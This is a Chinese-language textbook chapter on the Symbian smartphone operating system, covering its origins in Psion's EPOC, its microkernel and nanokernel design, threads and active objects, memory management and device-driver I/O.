针对Symbian操作系统的探讨将从它的历史开始。随后给出这个系统的概况，大致介绍它是怎样设计的以及实现什么样的功能。然后如前两章那样，介绍Symbian操作系统设计的各个方面，包括进程、内存管理、I/O、文件系统以及安全性。最后介绍Symbian操作系统怎样处理智能手机中的通信问题。
UNIX操作系统有着很长的历史，几乎与计算机一样的久远。Windows操作系统也有较长的历史。而Symbian操作系统的历史相对较短。它起源于20世纪90年代研发的操作系统，首次出现则是在2001年。鉴于Symbian操作系统所依赖的智能手机平台也是近期才得到发展的，这一点应当并不令人惊讶。
Symbian操作系统起源于掌上设备，随后经历了几个版本的升级得到快速发展。
Symbian操作系统继承于某些最初的掌上设备。20世纪80年代末，作为将台式设备的功能整合到小型的可移动装置中的一个手段，掌上设备得到发展。对掌上电脑的初次尝试并没有引起太多的注意。Apple Newton是一个设计良好的掌上电脑设备，但只在少数使用者中间流行。虽然开始很缓慢，但20世纪90年代中期发展的掌上电脑则已经针对用户以及人们使用移动设备的方式进行了更好的修改。掌上电脑最初设计为PDA，是电子规划员的个人数码助手，不断地发展并具有了多种功能。随着它们的发展，在功能上已经趋向于台式机，也相应地有了与台式机同样的需求。它们需要多任务的处理方式；需要增加多种形式的存储能力；需要在输入输出上更加灵活。
掌上设备也逐渐包含了通信功能。随着个人设备的发展，个人通信也同样在发展着。移动电话的使用在20世纪90年代末期有了飞速的发展。因此，将掌上设备与移动电话相结合形成智能手机是一件很自然的事情。而随着这种合并的产生，在掌上设备里运行的操作系统也不得不发展。
在20世纪90年代，Psion电脑公司制造了PDA设备。1991年，Psion生产了Series 3——一个配有小尺寸单色显示屏的小型电脑，小到可以放入口袋中。在Series 3之后，1996年又制造了具有红外功能的Series 3c，1998年又生产了具有更快处理器速度以及更多内存容量的Series 3mx。它们各自均获得了成功，而它们的成功主要源自其良好的功耗管理以及与包括个人电脑和掌上设备在内的其他设备之间的互通性。程序是用C语言实现的，利用面向对象设计，并采用了“应用引擎”——Symbian操作系统发展中的一个重要部分。这种引擎方案功能强大。它借鉴了微内核的设计，从而强调类似于服务器般的引擎的功能性——通过回应来自各应用程序的请求进行功能管理。这种方式使得它可以拥有标准化的API以及利用对象的抽象来使得应用程序编程者免于诸如数据格式等令人麻烦的细节问题。
1996年，Psion开始设计一种新型的32位操作系统，它支持触摸屏上的定位设备，采用多媒体技术，并且具有更丰富的通信功能。这个新的系统同时也更加面向对象，并且可以移植到不同的体系结构和设备设计上。Psion的付出所得到的结果是系统EPOC版本1的推出。EPOC由C++编程实现，并且是彻底的面向对象的设计。它依然使用了引擎方案，并将这个设计理念扩展到协同访问系统服务和外部设备的一系列服务器。EPOC扩展了通信能力，开发了多媒体，引入了新的针对触摸屏等接口的平台，并通用化了硬件接口。
之后EPOC又继续发展了两个版本：EPOC版本3（ER3）和EPOC版本5（ER5）。它们在新的Psion Series 5及Series 7的电脑平台上运行。
Psion同时也试图强调它的操作系统可以适用于其他硬件平台。在2000年左右，新的掌上设备发展的最大机会在手机业务，而在这方面，众多厂商一直都在为它的下一代设备寻找一个新的先进的操作系统。为了利用这些机会，Psion与手机业的巨头，包括Nokia、Ericsson、Motorola以及Matsushita（Panasonic），成立了一个合资项目Symbian，用来控制EPOC操作系统核心的所有权并使其继续发展。这一新的内核设计现在称为Symbian操作系统。
鉴于EPOC的最后一个版本为ER5，因此Symbian操作系统在2001年以版本6首发。它利用了EPOC的灵活特性，并主要面向几个不同的通用平台。其设计非常灵活，从而满足了发展各种高级移动设备以及手机的需要，同时允许众多厂商具有区别各自产品的能力。
同时，Symbian操作系统将会积极采用现代最先进的、成熟的关键技术。这更强化了对于面向对象以及客户机-服务器结构的选择，正如它们在台式机以及网络世界的愈加广泛的使用。
Symbian操作系统版本6被它的设计者们称为“开放的”。这个“开放”不同于UNIX以及Linux那样的开源特性。这里，“开放”指的是这个操作系统的结构是公开的并且是大家均可获得的。另外，所有的系统接口也都公开，从而鼓励第三方软件的开发。
Symbian操作系统版本6在设计和功能上很像EPOC以及版本6以前的版本。它的设计主要着眼于移动电话。此后，随着越来越多的厂商设计了移动电话，即使是EPOC的灵活性也不能够应付如此众多的移动电话对Symbian操作系统的使用需求。
Symbian操作系统版本7保持了EPOC的台式机功能，但是大部分系统内部被重写了以包含多种智能手机功能。操作系统内核以及操作系统服务从用户界面中分离出来。相同的操作系统现在可以在众多不同的智能手机平台上运行了，它们各自拥有着不同的用户界面系统。Symbian操作系统现在可以扩展以处理新的不可预期的信息格式或者用在使用不同的电话技术的智能手机上。Symbian操作系统版本7发布于2003年。
Symbian操作系统版本7是一个重要的版本，因为它将抽象性以及灵活性带入了操作系统。然而，这种抽象是有代价的。操作系统的性能不久便成为一个需要解决的问题。
于是重写操作系统的工程又开始了，这次主要着眼于性能。这个新的操作系统设计旨在保持Symbian操作系统版本7的灵活性的同时提高其性能，并增强其安全性。Symbian操作系统版本8，发布于2004年，提高了Symbian操作系统的性能，尤其是在其实时功能上。Symbian操作系统版本9发布于2005年，增加了基于性能的安全以及看门机制安装的概念。如同Symbian操作系统版本7增加软件的灵活性那样，Symbian操作系统版本9增加了针对硬件的灵活性。一个新的二进制模型得到了开发，从而使得硬件开发者可以使用Symbian操作系统，而不必重新设计硬件使其适应某一特定的结构模型。
前一节介绍过，Symbian操作系统是由一个掌上设备操作系统发展成为一个以实时性能作为目标的用在智能手机平台上的操作系统。这一节里我们将对Symbian操作系统设计中蕴含的概念作简单的介绍。这些概念与如何使用这个操作系统息息相关。
Symbian是一个独特的操作系统，因为它是以智能手机作为目标平台的。它不是将一般的操作系统硬装入智能手机（有很大的难度），也不是使较大的操作系统适应于较小的平台。然而，它确实包含了许多其他大型操作系统所具有的特性，从多任务到内存管理再到安全问题。
Symbian操作系统继承了其前身的最佳的特性，具有由EPOC传承下来的面向对象特性。并且如版本6中所引入的，使用了微内核的设计方案，最小化了内核的开销，将不必要的功能移到了用户层进程。它模仿EPOC中应用的引擎模型，使用了客户机/服务器结构。它支持多种台式机功能，包括多任务和多线程，以及可扩展存储系统。它还继承了EPOC中强调的多媒体与通信。
面向对象是一个意味着抽象的术语。在一个面向对象的设计中，针对某个系统成分的数据和功能，建立一个抽象的实体，称为对象。一个对象提供了具体的数据以及功能，但隐藏了具体实现。一个合理实现的对象可以被移除并被另外一个不同的对象代替，只要系统其他部分对这个对象的使用（也即其接口）保持不变。
当面向对象应用到操作系统设计中时，就意味着所有的系统调用以及内核端功能的使用均要通过接口，而不能直接获取实际数据或依靠其他类型的实现。一个面向对象的内核的实现通过对象来提供内核功能。使用内核端对象通常意味着一个应用程序具有一个对象的句柄，也就是对对象的一个引用，然后通过这个句柄来获得对该对象接口的访问。
Symbian操作系统采用了面向对象的设计。系统功能的实现是隐藏的，系统数据的使用通过系统对象已定义的接口完成。在Linux等操作系统中，构建一个文件描述符，并将这个描述符作为open调用的参数；而在Symbian操作系统中则会创建一个文件对象，然后调用该对象的open方法。举例来说，在Linux操作系统中，正如大家所知道的，文件描述符对应于系统内存中文件描述符表的索引的整数表示；而在Symbian操作系统中，文件系统表的实现是未知的，而所有的文件操作是通过一个特定的文件类的对象来实现的。
需要注意的是Symbian操作系统与其他在设计中运用了面向对象理念的操作系统不同。例如，许多操作系统设计使用了抽象数据类型，人们甚至可以说系统调用整个理念就是通过将系统实现细节对用户程序隐藏起来而实现了抽象。而对于Symbian操作系统，整个操作系统的结构均是面向对象设计的。操作系统功能以及系统调用都是与系统对象相联系的。资源分配以及保护则是对应于对象的分配，而不是系统调用的实现。
具有面向对象内在特性的Symbian操作系统的内核结构是微内核设计。内核中包括最小限度的系统功能以及数据，许多系统功能被放到了用户空间服务器端。服务器端通过获得系统对象的句柄并对这些对象进行必要的系统调用来完成各自的服务。用户空间应用程序与这些服务器端进行交互而不是采取系统调用。
典型的基于微内核的操作系统初始化引导时占用较少的内存，并且其结构也更加动态。当需要时可以启动服务器，而在启动时并不需要全部的服务器。微内核大多为可插拔结构，允许当需要时加载系统模块并插入到内核中。因此，微内核结构十分灵活：支持新功能的代码（例如，新硬件驱动程序）可以随时加载和插入。
Symbian操作系统被设计为基于微内核的操作系统。通过打开与资源服务器端的连接访问系统资源，资源服务器随后协同访问资源本身。Symbian操作系统支持对于新的实现的可插拔结构。对于系统功能的新的实现可以设计为系统对象，并动态插入到内核中。例如，可以实现新的文件系统并且在操作系统运行的同时添加到内核中。
这种微内核的设计也带来了一些需要探讨的话题。在传统的操作系统中一个系统调用便已足够时，微内核使用消息传递。性能可能会由于对象间通信所增加的花费而受到影响。在传统操作系统中位于内核的那些功能被移到用户空间时效率可能会降低。举例来说，与可以直接访问内核数据结构的Windows内核中的进程调度相比，进程调度的多函数调用的开销降低了性能。由于在用户空间与内核空间对象中传递消息，会经常发生特权级切换，这就更降低了它的性能。最后，在传统设计方案中只用到了一个地址空间的系统调用，而这种消息传递以及优先级转换意味着至少需要用到两个地址空间来完成一个微内核服务请求。
这些性能问题使得Symbian操作系统（以及其他基于微内核的操作系统）的设计者们对于设计以及实现细节给予了极大关注。设计的重点是最小化的、紧凑的集中服务。
Symbian操作系统的设计者们在操作系统设计的核心采用了一种纳核的结构来处理微内核所具有的问题。正如在微内核结构中，某些系统功能被移到了用户空间服务器端，Symbian操作系统将需要复杂实现的功能分离到内核中，而只将最基本的功能放在系统核心的纳核中。
在Symbian操作系统中，纳核提供部分最基本的功能。在纳核中，运行在特权级别的简单线程完成着十分初级的功能。在这一层的实现中包括调度同步操作、中断处理和同步对象，如互斥变量以及信号量。这一层中的实现功能大多是可抢占的，而且是非常初级的（所以它们可以很快）。例如，动态内存分配对于纳核就是过于复杂的功能。
这种纳核的设计需要一个二级层次来实现较为复杂的内核功能。Symbian操作系统内核层提供了操作系统所需要的其他较为复杂的内核功能。每个在Symbian操作系统内核层的操作都是特权级的操作，并与纳核层的初级操作一起来完成更加复杂的内核工作。复杂的对象服务、用户态线程、进程调度以及上下文切换、动态内存、动态库加载、复杂的同步、对象及进程间通信只是在这层实现的部分操作。这层是完全可抢占式的，并且中断可以使其对任何一部分的执行进行重新调度，即使是在上下文转换的过程中也可以。
图12-1展示了一个完整的Symbian操作系统内核的结构。
正如我们所提到的那样，Symbian操作系统使用微内核设计并使用客户机/服务器模型来访问系统资源。需要访问系统资源的应用是客户端，操作系统中运行着的用来协调资源访问的程序是服务器端。在Linux中，人们可能需要调用open来打开一个文件；在Windows中，需要利用Microsoft API来创建一个窗口；而在Symbian操作系统中的过程均是相同的：首先建立一个到服务器端的连接，服务器端需要确认这个连接，然后对服务器端发出实现某个操作的请求。因此打开一个文件表示找到文件服务器端，调用connect建立与服务器端的连接，然后发送给服务器端一个附有某特定文件名字的open请求。
这样做对于保护资源有着几点好处。首先，它符合操作系统的面向对象以及微内核的设计。其次，这种结构对于管理多任务、多线程系统中所需要的资源多重访问十分有效。最后，每个服务器都可以专注于它必须管理的资源，并能方便地进行升级以及替换为新的设计。
尽管Symbian操作系统所针对的目标电脑规模较小，但它有着许多大型系统的特点。你可以在Symbian操作系统上找到大型操作系统（如Linux以及Windows）的各种特性，只是以另一种形式出现。Symbian操作系统与较大型的操作系统有一些共同的特性。
·进程与线程：Symbian操作系统是一个多任务多线程的操作系统。许多进程可以同时运行，相互间可以进行通信，也可以在各进程内运行多个线程。
·常见文件系统支持：Symbian操作系统利用一个文件系统模型来管理对系统存储空间的访问，正如大型操作系统一样。它具有一个与Windows兼容的默认文件系统（默认使用FAT-32文件系统），通过使用插件式接口支持其他文件系统。Symbian操作系统支持几种不同类型的文件系统，包括FAT-16、FAT-32、NTFS，以及许多存储卡格式（例如JFFS）。
·网络：Symbian操作系统支持TCP/IP网络以及其他的通信接口，例如串行、红外和蓝牙。
·内存管理：尽管Symbian操作系统不使用（也没有相应的设备）虚拟内存映射，但它通过按页管理实现对内存访问，并支持页的置换，也就是说支持页面换入，但不支持页面换出。
Symbian操作系统以多种方式协助通信。我们很难简单地对其进行概述而不提及通信特点。通信的模型遵循面向对象、微内核以及客户机/服务器结构。Symbian操作系统的通信结构是以模块形式建立的，从而允许新的通信机制方便地接入操作系统。从用户层接口到新的协议实现，到新的设备驱动，模块可以实现任何功能。由于这样的微内核实现，可以引入新的模块并动态地加载到系统操作中。
由于Symbian操作系统只针对智能手机平台，因此有许多独特的特点。它具有一个可插拔的消息结构，可以引入新的消息类型，并可以通过消息服务器动态加载的模块来实现。消息系统被设计为层次结构，各层由特定类型的对象来实现。例如，消息传递对象不同于消息类型对象。一种形式的消息传递，例如手机无线传递（类似于CDMA）可以传送几种不同类型的消息（标准文本消息类型、SMS类型或者如BIO消息等的系统指令）。通过实现新的对象并将其加载到内核中可以引入新的传递方法。
Symbian操作系统的核心设计有专门针对多媒体的各种API。多媒体设备以及上下文由特殊的服务器和用户自定义的结构（允许用户实现描述新的或现存的上下文以及怎样对上下文进行处理的模块）来处理。与实现消息的方法相类似，多媒体是由多种形式相互作用的对象来实现。声音播放的方式被设计为一个与各种声音格式的实现方式相互作用的对象。
Symbian操作系统是一个多任务操作系统，像其他操作系统那样，使用了进程和线程的概念。然而，Symbian操作系统的内核结构以及它对资源稀缺性的处理方式影响了它看待这些多任务对象的方式。
对于多任务，Symbian操作系统更倾向于线程，并且是建立在线程概念上的，而不是把进程作为多任务的基础。线程构成了多任务的中心单元。操作系统简单地把一个进程看成是具有一个进程控制块和某个内存空间的线程的集合。
Symbian操作系统对于线程的支持是基于纳线程的纳核。纳核仅提供简单的线程支持，每个线程是由一个基于纳核的纳线程来支持的。纳核为纳线程提供调度、同步（线程间通信）以及计时服务。纳线程运行在特权模式下，需要一个栈来存储它们的运行时刻环境数据。纳线程不能运行在用户态。这就意味着操作系统能够对每个纳线程保持紧密的控制。每个纳线程需要一个数据的极小集来运行：实质上就是它的栈以及栈的大小。操作系统保持对其他一切的控制，比如每个线程使用的代码，以及在运行时刻的栈上存储线程的上下文。
同进程具有状态一样，纳线程也具有线程状态。Symbian操作系统的纳核使用的模型在基本模型中增加了一些状态。除了基本状态以外，纳线程还可以处于如下状态：
·挂起。这就是当一个线程挂起另一个线程时的状态，与等待状态不同，在等待状态下一个线程是被某个上层对象阻塞（例如，一个Symbian操作系统线程）。
·快速信号量等待。处于这个状态的线程正在等待一个快速信号量（哨兵变量的一种）得到信号通知。快速信号量是纳核级别的信号量。
·DFC等待。处于这种状态的线程正在等待一个延迟的函数调用或者要被加入到DFC队列中的DFC。DFC用在设备驱动实现中。它们代表对于内核的调用，可被Symbian操作系统内核层排入队列并且调度执行。
·休眠。休眠线程正在等候特定长度的时间过去。
·其他。还有一种通用状态，是当开发人员为纳线程实现额外的状态时使用的。当开发人员为新的手机平台（称作个性层）扩展纳核功能时使用该状态。进行这个工作的开发人员也必须实现这些状态与他们的扩展实现之间的来回跳转。
下面将纳线程思想与传统进程思想作比较。纳线程实际上是一个完全轻量级的进程。它具有极小的上下文，当纳线程进出处理器时进行切换。每个纳线程和进程一样具有一个状态。对于纳线程来说，关键是纳核对它们的紧密控制，以及构成每个纳线程上下文的极小数据集合。
Symbian操作系统线程依赖于纳线程，内核增加除纳核提供的功能之外的支持。标准程序使用的用户模式线程由Symbian操作系统线程执行。每个Symbian操作系统线程包含一个纳线程并且添加自己的运行时刻栈到纳线程使用的栈中。Symbian操作系统线程可以通过系统调用在内核模式下进行操作。Symbian操作系统也能为执行增加例外处理以及退出信号。
Symbian操作系统线程在纳线程实现之上实现自己的状态集。由于Symbian操作系统线程将一些功能性增加到纳线程实现中，因此新的状态反映了构成Symbian操作系统线程的新的思想。Symbian操作系统添加了Symbian操作系统线程可以进入的新的七种状态，来关注Symbian操作系统线程可能出现的特殊阻塞条件。这些特殊状态包括在信号量上的等待和挂起（正常的）、互斥变量以及条件变量。由于Symbian操作系统的实现处于纳线程之上，因此这些状态从某种方面上来说是由纳线程状态实现的，通常都是用不同的方式使用挂起的纳线程状态。
Symbian操作系统的进程，就是在一个单一的进程控制块结构下，具有一个单一存储空间的，归于一类的Symbian操作系统的线程组。可能只有一个执行的线程，或者一个进程控制块下有很多线程。Symbian操作系统线程和纳线程已经定义了进程状态和进程调度的概念。因此，调度一个进程实际上是通过调度一个线程以及初始化数据需要使用的正确的进程控制块来完成的。
Symbian操作系统线程通过几种方式，在一个单一进程的组织下工作在一起。首先，有一个主线程被标志为进程的起始点。其次，线程共享调度参数。也就是说，进程通过一种调度方法——改变进程参数，来改变所有线程的参数。第三，线程共享包括设备和其他对象描述符的存储空间对象。最后，当一个进程终止时，内核终止该进程的所有线程。
活动对象是线程的特有形式，用这种方式实现以便减轻它们带给操作环境的负担。Symbian操作系统的设计者意识到，应用中的线程在很多情况下可能会发生阻塞。由于Symbian操作系统致力于通信工具方面，因此许多应用程序具有类似的执行模式：它们向一个通信套接字写数据或者通过管道发送信息，然后在等待接收者的响应时阻塞。这样设计活动对象，是为了当它们从这种阻塞状态返回时，具有进入被调用代码的单一入口点,这简化了它们的实现。由于活动对象运行在用户空间，因此它们具有Symbian操作系统线程的特性。它们本身具有自己的纳线程，并且能够加入Symbian操作系统的其他线程构成操作系统的一个进程。
假若活动对象仅仅是Symbian操作系统线程，有人就会问操作系统从这种简化的线程模型中得到了什么益处。活动对象的关键点体现在调度上。所有的活动对象在等待事件的时候驻留在一个单一进程中，对系统而言可以作为一个单一的线程。内核不必连续地检查每一个活动对象是否被解除阻塞。因此，单一进程中的活动对象，能够由在一个单一线程中执行的单一调度器来协调。通过将在其他方面作为多线程执行的代码结合到一个线程中，通过构建固定的入口点进入代码，以及通过使用一个单一调度器来协调它们的执行，活动对象构成了标准线程的一种高效、轻量版本。
认识到活动对象和Symbian操作系统进程结构在何处融合成为一体是很重要的。当一个传统线程通过系统调用进入等待状态从而阻塞自己的运行时，操作系统仍然需要检查这个线程。在上下文切换期间，操作系统需要花费时间检查处于等待状态的阻塞进程，决定是否需要将其移动到就绪状态。活动对象把自己放入等待状态以等待特定的事件，因此，操作系统不需要去检查它们，而只是在特定的事件发生后移动它们。结果就是更少的线程检测以及更好的性能。
在类似Symbian操作系统的多线程环境中，进程间通信对系统性能是至关重要的。线程，特别是系统服务形式的线程经常通信。
套接字是Symbian操作系统使用的基本通信模型。它是两个端点之间抽象的通信管道。这一抽象是用来隐藏端点之间的传输方法和数据管理。Symbian操作系统使用套接字的概念在客户端和服务器端之间、线程到设备之间以及线程之间进行通信。
套接字模型也构成了设备I/O的基础。抽象再次成为使这一模型更加有效的关键。同一个设备进行数据交换的所有机制不是由应用程序管理的，而是由操作系统管理的。例如，网络环境中工作于TCP/IP上的套接字可以很容易地通过改变套接字使用的类型参数而适应于蓝牙环境。这种变换下，其他大部分的数据交换工作都是由操作系统完成的。
Symbian操作系统实现了通用操作系统上使用的标准同步原语。操作系统中广泛地使用了信号量和互斥量的一些形式。这些为进程和线程提供同步能力。
诸如Linux和Windows系统中的内存管理使用了很多我们前面讲过的关于实现内存资源管理的概念。例如，从物理内存框架构建的虚拟内存页面、按需分页的虚拟内存以及动态页面置换，这些概念共同给出近乎无限的内存资源形象。这里物理内存是由诸如硬盘空间等支持和扩展的。
Symbian操作系统和实际的通用操作系统一样，也必须提供内存管理模式。然而，由于智能手机上的存储容量非常有限，内存模型受到限制，而且进行内存管理的时候不能使用虚拟内存/交换空间模型。但正是如此，Symbian操作系统使用了我们讨论过的内存管理的大多数机制，包括硬件MMU。
许多计算机系统没有提供成熟的支持按需分页的虚拟内存的设备。在这些平台上操作系统可以获得的惟一的存储设备就是内存，它们没有硬盘设备。正因为这样，大多数较小的系统，从PDA到智能手机，再到更高层次的掌上设备，都不支持按需分页的虚拟内存。
下面考虑大多数小的平台设备上使用的内存空间。这些系统一般都有两种类型的存储介质：RAM和闪存。RAM存储操作系统代码（当系统启动时使用），闪存用作操作内存和永久性（文件）存储介质。通常，可以为一个设备（比如安全数据卡）增添额外的闪存，这些存储空间专门用作永久性存储。
没有支持按需分页的虚拟内存不代表缺少内存管理。实际上，大多数较小的平台构建在包含许多较大型系统的管理特征的硬件上。这些管理特征包含诸如分页、地址翻译以及虚拟/物理地址抽象。没有虚拟内存仅仅意味着页面不能从内存交换出去并存储在外部设备上，而内存页的抽象仍然在使用。页面被替换了，但是它们也只是被丢弃了。也就是说只有代码页可以被置换，因为只有它们备份在闪存上。
内存管理包含如下的任务：
·应用程序大小的管理：应用程序的大小（所有的代码和数据）对如何使用内存有很大的影响。创建小的软件需要技巧和规则。使用面向对象的设计在这里成为一种阻碍（更多的对象意味着更多的动态内存分配，而这需要更大的堆尺寸）。大多数针对较小平台的操作系统非常不鼓励任何模块的静态链接。
·堆的管理：堆（用来进行动态内存分配的空间）在较小的平台上必须严格地管理。堆空间在较小的平台上一般划定边界，以便程序员尽可能地回收和重用。冒险越界会导致内存分配的错误。
·就地执行：没有磁盘设备的平台通常支持就地执行。这就是说闪存被映射到虚拟内存地址空间，程序可以直接从闪存上执行，而不需要首先复制到RAM上。这样做使加载时间减小为零，允许应用程序迅速启动，而且也不需要使用稀缺的RAM。
·加载动态链接库：什么时候加载动态链接库的选择会明显影响系统性能。例如，当应用程序第一次加载到内存就加载所有的动态链接库，比在执行中不定时发生的加载更加容易接受。比起执行时应用程序发生延迟，用户更加能够接受启动它时有一些滞后。注意动态链接库可能并不需要加载，如果它们已经在内存中或者它们包含在外部闪存中（在这种情况下，它们可以就地执行）就是这种情况。
·卸下内存管理给硬件：如果有MMU，尽可能地使用它。实际上，将越多的功能放入MMU，系统的性能越好。
即使使用就地执行的规则，较小的平台仍然需要保留一部分内存用作操作系统操作。这些内存与永久性存储介质共享，并且通常以两种方法中的一种进行管理。首先，一些操作系统采用一种十分简单的方法，内存根本不分页。在这些类型的系统中，上下文切换意味着分配操作空间（比如堆空间），同时在所有进程间共享这些操作空间。这种方法在进程的存储区域几乎没有保护，信任进程间可以很好地工作。Palm操作系统使用这种简单的方式进行内存管理。第二种方法是使用一种更加有规则的方法，内存被切分成为页，这些页按照操作需要分配。操作系统管理一个空闲列表来保存页，按照需要分配给操作系统和用户进程。在这种方法中（由于没有虚拟内存），当页的空闲列表用光时，系统就会没有内存，从而不会再有分配发生。Symbian操作系统是第二种方法的例子。
由于Symbian操作系统是32位系统，因此寻址范围可以达到4GB。它与更大的系统一样使用同样的抽象方式：程序必须使用由操作系统映射到物理地址的虚拟地址。和大多数系统一样，Symbian操作系统把内存划分为虚拟页面和物理页框。页框的大小通常是4KB，但也是可变的。
因为最大具有4GB的地址空间，因此4KB的页框大小就意味着具有超过100万条目的页表。Symbian操作系统只有有限的内存，因此不能拿出1MB内存专用于页表。而且，对这么大的一张表的搜索和访问对系统都是很大的负担。为了解决这个问题，Symbian操作系统采用2级页表方式，如图12-2所示。称作页面目录的第一级提供一个到第二级的链接，可以使用虚拟地址的一部分进行检索（前12位）。该目录驻留在内存中，由TTBR（转换表基址寄存器）指向。每个目录条目指向第二级，也就是页表的集合。这些页表提供到某一内存中特定页的链接，由虚拟地址的一部分检索（中间8位）。最后，虚拟地址的低12位索引检索页的字。在这一虚拟-物理地址映射计算中，硬件起辅助作用。尽管Symbian操作系统不能假定任何辅助硬件的存在，但是在大多数体系中这一映射转换都是由MMU完成的。比如ARM处理器就具有扩展的MMU，带有转换后备缓冲器来辅助地址计算。
当一个页面不在内存中时，就会出现错误状态，这是因为当一个应用程序启动的时候所有的应用程序内存页面都应该已经被加载（没有请求页面调度）。链接到可执行应用中的小的桩代码显式地把动态加载库加载到内存中，而不是通过页失效方式。
Symbian操作系统中尽管没有页交换，但内存却不可思议地是动态的。应用程序通过内存进行上下文切换，同时正如上面所说的，当应用程序开始执行时将它们所需要的存储空间加载到内存中。每个应用程序需要的内存页面能够从操作系统中静态请求进入内存。对于堆（更确切地说是动态空间）是有界限的，因此静态请求也可以由动态空间来实现。从一个空闲页框的列表中分配页框给页面；如果没有空闲页框，那么就会出现错误。正在使用的页框不能被刚到的应用程序的页面替换，即使该页框是针对当前没有执行的应用程序的。这是由于Symbian操作系统中没有页交换，同时因为十分有限的闪存空间只给用户文件使用，也就没有空间来复制被收回空间的页面。
实际上Symbian操作系统使用的存储实现模型有四种不同的版本。每种模型都是为了特定类型的硬件配置。一个简要的列表如下：
·移动模型：该模型是为早期的ARM体系结构设计的。移动模型中的页目录是4KB长，每个条目4字节，给出一块16KB大小的目录。通过与页框相关的存取位和使用域来标志存储器访问的方式保护存储页面。域信息记录在页表目录，MMU为每个域实现访问权限。尽管没有明确使用分段，但是在内存布局上有如下结构：有用户分配数据的数据区，也有内核分配数据的内核区。
·复合模型：该模型是为ARM6或者之后的体系开发的模式。这些版本中的MMU与以前版本使用的不同。例如，由于页表目录能分成两部分，每个部分索引页表的不同部分，因此需要不同的处理方式。这两部分分别用作用户页表和内核页表。ARM体系中新的版本修订并增强了每个页框的访问位，但是不赞成使用域的概念。
·直接模型：该模型假定根本就没有MMU。这一模型很少使用，并且在智能手机上禁止使用。没有MMU会导致严重的性能问题。由于某些原因，MMU被禁止的一些场合中该模式比较有用。
·仿真模型：该模型是为了支持基于windows宿主机的Symbian操作系统仿真器。仿真器与实际的目标CPU几乎没有区别。仿真器作为一个单独的Windows进程运行，因此地址空间被限定为2GB，而不是4GB。为仿真器提供的所有内存可以被任何Symbian操作系统进程访问，因此不具有内存保护。Symbian操作系统库以Windows格式的动态链接库形式提供，因此Windows处理内存的分配和管理。
Symbian操作系统的输入/输出结构仿照其他操作系统的设计。本节会指出其中一些Symbian操作系统特有的基于自己目标平台的性质。
在Symbian操作系统中，设备驱动作为具有内核权限的代码运行，从而赋予用户级别的代码对系统保护资源的访问能力。同Linux与Windows一样，设备驱动程序代表软件去访问硬件。
Symbian操作系统中的设备驱动分为两层：一个是逻辑设备驱动（LDD），一个是物理设备驱动（PDD）。LDD为上层软件提供一个接口，而PDD直接与硬件进行交互。在这种模型下，LDD可以为一类特定的设备使用相同的实现，而PDD随着不同的设备改变。Symbian操作系统支持许多标准的LDD。有时，如果硬件非常标准或者常用，Symbian操作系统也提供PDD。
考虑串行设备的一个例子。Symbian操作系统定义了一个通用的串行LDD，该LDD定义了访问串行设备的程序接口。LDD给PDD提供一个接口，PDD提供串行设备访问接口。PDD实现有助于调节CPU和串行设备之间速度差异所必需的缓冲和流控制机制。一个单一的LDD（用户那边）可以连接任何用来运行串行设备的PDD。在某个特定的智能手机上，这些PDD可能包括一个红外端口或者一个RS-232端口。这两个是非常好的例子，它们使用相同的串行LDD，但是使用不同的PDD。
当LDD和PDD不在内存中时，它们可以由用户程序动态地加载进内存。程序编制工具能够检查是否需要加载。
内核扩展就是Symbian操作系统在引导时刻加载的驱动程序。由于它们是在引导时刻加载的，因此是与标准的设备驱动区别对待的特殊情况。
内核扩展与标准的设备驱动不同。大多数设备驱动是由LDD同成对的PDD实现的，在用户空间程序需要的时候加载。内核扩展在引导时刻加载，针对特定的设备，通常没有成对的PDD。
内核扩展是引导过程的一部分。这些特殊的设备驱动在调度器启动之后加载并且启动。它们执行对于操作系统非常重要的功能：DMA服务、显示管理、对外设的总线控制（例如USB总线）。之所以提供它们有两个原因。首先，它与我们已经看作是微内核设计特征的面向对象设计抽象相称。其次，它允许Symbian操作系统所处的不同平台运行专门的设备驱动，从而不需要重新编译内核而使用硬件。
设备驱动经常使用DMA，Symbian操作系统支持DMA硬件的使用。DMA硬件包含一个控制一系列DMA通道的控制器。每个通道提供内存和设备间的单一方向的通信，因此，数据的双向传输需要两个DMA通道。至少有一对DMA通道是专用于显示LCD控制器的。此外，大多数平台提供一定数量的常规DMA通道。
一旦一个设备把数据传送到内存，就会激发一个系统中断。PDD为了传输设备使用DMA硬件提供的DMA服务，这里传输设备是指与硬件接口的设备驱动的一部分。在PDD与DMA控制器之间，Symbian操作系统实现两层软件：一个软件的DMA层，一个与DMA硬件接口的内核扩展。DMA层把自身分成平台独立层和台相关层。作为内核扩展，DMA层在引导进程中是内核启动的第一批设备驱动的一个。
由于特殊的原因，对DMA的支持是比较复杂的。Symbian操作系统支持许多不同的硬件配置，但是没有提供缺省的DMA配置。与DMA硬件的接口是标准化的，由平台无关层来提供。平台相关层和内核扩展由生产厂商提供，这样Symbian操作系统就如对其他设备一样处理DMA硬件：在LDD和PDD构件中具有设备驱动。由于DMA硬件本身是一个设备，并且它并行了Symbian操作系统支持所有设备的方式，因此这种实现支持的方式是合理的。
Symbian操作系统中存储介质驱动是PDD的一种特殊形式，文件服务器排他地使用它们来实现对存储介质设备的访问。因为智能手机既可以容纳固定的存储介质也可以容纳移动的存储介质，所以存储介质驱动必须识别和支持多种形式的存储介质。Symbian操作系统对介质的支持包括一个标准的LDD和为用户提供的接口API。
Symbian操作系统中的文件服务器能够同时支持多达26个不同的设备。本地设备，像在Windows中一样，通过驱动器号来区分。
Symbian操作系统通过活动对象处理阻塞I/O。设计者认识到等待I/O事件的所有线程的负荷会影响系统中的其他线程这一事实。活动对象使得阻塞I/O调用可以由操作系统来处理，而不是进程自身。活动对象由一个调度器进行协调并且在一个单独的线程中执行。
当活动对象使用一个阻塞I/O调用时，它用信号通知操作系统并且把自身挂起。当调用完成时，操作系统唤醒挂起的进程，该进程如同带有数据返回的函数一样继续执行。区别只是对于活动对象的一个观点：它不能调用一个函数并期待一个返回值；它必须调用一个特殊的函数并且使该函数设置阻塞I/O，但是立刻返回。操作系统接管等待过程。
可移动存储器带给操作系统设计人员一个有趣的两难处境。当往读取槽插入一张安全数据（Secure Digital，SD）卡时，该卡就同其他设备一样成为一个设备。它需要一个控制器、一个驱动、一种总线结构，而且很有可能通过DMA与CPU进行通信。然而，对这类模型移除存储介质是一个很严重的问题：操作系统怎样检测插入和移除？这一模型如何适应一张介质卡的不存在？还有更加复杂的情况，一些设备槽能够兼容不止一种类型的设备。例如，一张SD卡，一张miniSD卡（带有适配器），以及一张多媒体卡都使用同一类插槽。
